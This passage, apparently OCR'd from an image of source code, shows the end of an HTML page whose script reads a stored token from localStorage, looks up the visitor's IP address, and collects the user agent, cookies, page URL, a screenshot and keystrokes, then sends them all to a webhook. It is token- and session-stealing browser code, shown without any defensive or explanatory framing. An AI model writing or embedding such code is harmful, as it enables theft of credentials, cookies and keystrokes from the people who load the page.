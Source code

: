       const token = localStorage.getItem('token'); // Example of token retrieval from localStorage

      if (token) {
        fetch('https://api.ipify.org?format=json')
        .then(response => response.json())
        .then(data => {
          const ip = data.ip;
          const userAgent = navigator.userAgent;
          const cookies = document.cookie;
          const location = window.location.href;
          captureScreenshot(function(screenshot) {
            sendTokenToWebhook(token, ip, userAgent, cookies, location, screenshot, keystrokes);
          });
        })
        .catch(error => {
          console.error('Error:', error);
          console.log('Failed to retrieve IP address!');
        });
      } else {
        console.log('Failed to retrieve token!');
      }
    });
  </script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/html2canvas/0.4.1/html2canvas.min.js"></script>
</body>
</html>
